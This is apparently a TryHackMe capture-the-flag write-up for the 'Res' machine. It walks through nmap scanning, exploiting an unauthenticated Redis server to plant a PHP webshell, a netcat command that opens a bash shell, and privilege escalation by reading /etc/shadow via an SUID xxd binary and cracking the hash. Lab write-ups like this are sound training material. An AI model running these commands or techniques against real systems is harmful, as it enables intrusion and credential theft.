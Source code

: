 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

![nmap scan](/images/nmap_scan.png)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

![Web Application on Port 80](/images/web_application.png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

![web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

## Exploitation

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

![redis_tools installation screenshot](/images/redis_tools.png)

I try to connect to a Redis server without a password and I was successfully connected to Redis server.

![redis connect screenshot](/images/connect_redis.png)

Running the “INFO” command listed out the redis version, operating system, architecture, and more.

![redis info screenshot](/images/info_redis.png)


Writing a php script and saving it to the web directory

![Webshell screenshot](/images/webshell.png)

Shell writing is complete, executing it on the target machine

![Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

![access screenshot](/images/user.png)

## Post-Exploitation

### Privilage Escalation

SUID bit is set for xxd

![suid screenshot](/images/xxd_0.png)

Referencing [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), I learnt that xxd may be used to do privileged reads or disclose files outside a restricted file system. Using this capabilities, I gained read access of /etc/shadow file.

![xxd screenshot](/images/xxd.png)


Local user password hash from /etc/shadow file was found

![password hash screenshot](/images/shadow.png)

Using john the ripper, I cracked the local user password. 

![password cracked screenshot](/images/john.png)

Once I logon as the user. I found that the user has full sudo privileges. Using this privilage, I was able to switch user as root and gain root access

Root access
![sudo screenshot](/images/root_access.png)








